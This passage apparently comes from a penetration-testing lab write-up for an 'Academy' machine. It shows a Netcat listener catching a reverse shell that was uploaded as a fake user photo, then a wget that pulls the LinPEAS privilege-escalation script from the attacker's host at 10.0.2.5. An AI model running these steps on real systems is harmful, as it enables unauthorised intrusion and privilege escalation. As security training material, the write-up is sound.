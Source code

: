 


We start a Netcat listener with the usual `nc -nvlp <PORT>` command with the
port number used in the shell script, by default 1234. After that we upload the
shell code as if it was a user photo. The code is executed without explicitly
going to the URL that we looked up before. We got our first shell on the
machine, but for a user with few permissions:

```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 50740
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 02:20:46 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Privilege Escalation with LinPEAS

Now we use the Linux shell script
[LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
for **privilege escalation**, i.e. to get access to a user with elevated access
rights, e.g. root. (There is also a Windows equivalent, WinPEAS.) To get LinPEAS
onto the victim machine, we start an HTTP server on our attack machine with
`python -m http.server -b <ATTACKER IP> <PORT>` in the directory where the
`linpeas.sh` script is stored. To download and run the script, we need to move
to some folder where we have write access, download the file with `wget
<ATTACKER IP>/linpeas.sh`, and make it executable before we run it:



```
$ cd /tmp
$ wget 10.0.2.5/linpeas.sh
--2025-06-17 01:24:06--  http://10.0.2.5/linpeas.sh
Connecting to 10.0.2.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  5% 9.89M 0s
    50K .......... .......... .......... .......... .......... 10% 10.7M 0s
   100K .......... .......... .......... .......... .......... 16% 14.0M 0s
   150K .......... .......... .......... .......... .......... 21% 17.4M 0s
   200K .......... .......... .......... .......... .......... 26% 91.8M 0s
   250K .......... .......... .......... .......... .......... 32% 10.4M 0s
   300K .......... .......... .......... .......... .......... 37% 15.1M 0s
   350K .......... .......... .......... .......... .......... 42% 31.3M 0s
   400K .......... .......... .......... .......... .......... 48% 14.6M 0s
   450K .......... .......... .......... .......... .......... 53% 17.3M 0s
   500K .......... .......... .......... .......... .......... 59%  156M 0s
   550K .......... .......... .......... .......... .......... 64%  260M 0s
   600K .......... .......... .......... .......... .......... 69%  247M 0s
   650K .......... .......... .......... .......... .......... 75%  299M 0s
   700K .......... .......... .......... .......... .......... 80%  334M 0s
   750K .......... .......... .......... .......... .......... 85%  281M 0s
   800K .......... .......... .......... .......... .......... 91%  247M 0s
   850K .......... .......... .......... .......... .......... 96%  295M 0s
   900K .......... .......... .......... ..                   100%  295M=0.03s

2025-06-17 01:24:06 (27.0 MB/s) - 'linpeas.sh' saved [954437/954437]
```